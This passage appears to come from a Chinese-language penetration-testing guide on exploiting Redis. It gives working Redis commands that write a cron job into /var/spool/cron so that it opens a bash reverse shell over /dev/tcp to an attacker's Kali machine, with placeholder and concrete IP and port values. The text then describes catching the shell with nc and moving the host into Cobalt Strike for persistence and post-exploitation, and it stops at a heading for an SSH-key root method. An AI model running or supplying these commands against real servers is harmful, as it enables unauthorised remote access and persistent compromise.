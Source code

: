 ```bash
config set dir /var/spool/cron

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/<kali 的 IP>/<端口> 0>&1\n\n\n"

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/192.168.16.59/5678 0>&1\n\n\n"

或者
set x "\n* * * * * /bin/bash i > /dev/tcp/<kali 的 IP>/<端口> 0<&1 2>&1\n"

set x "\n* * * * * /bin/bash i >& /dev/tcp/192.168.16.59/5678 0<&1 2>&1\n"

config set dbfilename root
save
```

[![](assets/1702372985-00eef55c6654ce5902bf5ff4b5dff1f9.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/9.png)

待任务执行后会弹到 kali 的 nc 上，过一分钟左右就可以收到 shell

[![](assets/1702372985-e0dbab9d1e7c86e29ccb69e52ce7ff7e.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/10.png)

再上线到 CS 做权限维持和后渗透

[![](assets/1702372985-29d9af65096cf1ade1cf242b85c08a07.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/11.png)

### [](#3-%E5%88%A9%E7%94%A8%E5%85%AC%E7%A7%81%E9%92%A5%E8%AE%A4%E8%AF%81%E8%8E%B7%E5%BE%97root%E6%9D%83%E9%99%90 "3.利用公私钥认证获得root权限")3.利用公私钥认证获得 root 权限[](#3-%E5%88%A9%E7%94%A8%E5%85%AC%E7%A7%81%E9%92%A5%E8%AE%A4%E8%AF%81%E8%8E%B7%E5%BE%97root%E6%9D%83%E9%99%90)

在以下条件下，可以利用此方法

